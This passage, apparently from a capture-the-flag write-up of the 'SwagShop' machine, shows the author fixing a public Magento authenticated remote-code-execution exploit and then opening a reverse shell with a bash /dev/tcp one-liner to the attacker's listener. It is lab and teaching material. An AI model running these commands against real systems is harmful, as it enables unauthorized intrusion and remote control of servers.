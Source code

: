 ```
Traceback (most recent call last):
  File "37811.py", line 70, in <module>
    tunnel = tunnel.group(1)
AttributeError: 'NoneType' object has no attribute 'group'
```

```
request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)
tunnel = re.search("src=\"(.*)\?ga=", request.read())
tunnel = tunnel.group(1)
```


Looks like `tunnel` isn't receiving a value either. Looking again at the responses from Burp.

```
<div style="margin:20px;">
  <p class="switcher a-right" style="padding:5px 10px;">
     Select Range:
     <select name="period" id="order_orders_period" onchange="changeDiagramsPeriod(this);">
       <option value="24h">Last 24 Hours</option>
       <option value="7d" selected="selected">Last 7 Days</option>
       <option value="1m">Current Month</option>
       <option value="1y">YTD</option>
       <option value="2y">2YTD</option>
     </select>
  </p>
  <br/>
  <p class="a-center" style="width:587px;height:300px; margin:0 auto;">No Data Found</p>
</div>
```

The response says "No Data Found", which is probably why `tunnel` isn't getting a value, as there is no value for `src`. What's interesting are the options, and that we've selected "the Last 7 days". Looking at the exploit code, we can see that it builds a url with `request = br.open(url + 'block/tab_orders/period/7d/?isAjax=true', data='isAjax=false&form_key=' + key)`. and as part of the url, attaches `block/tab_orders/period/7d/?isAjax=true`. Let's see what happens when we change `7d` to
another option, like `2y`. 

`python rce.py http://10.10.10.140/index.php/admin "whoami"`
```
www-data
```

### Catching a Shell

With code execution now, getting a reverse shell back is pretty trivial.

`python auth_rce.py http://10.10.10.140/index.php/admin "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'"`

```
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.10.140.
Ncat: Connection from 10.10.10.140:52012.
bash: cannot set terminal process group (1283): Inappropriate ioctl for device
bash: no job control in this shell
www-data@swagshop:/var/www/html$
```
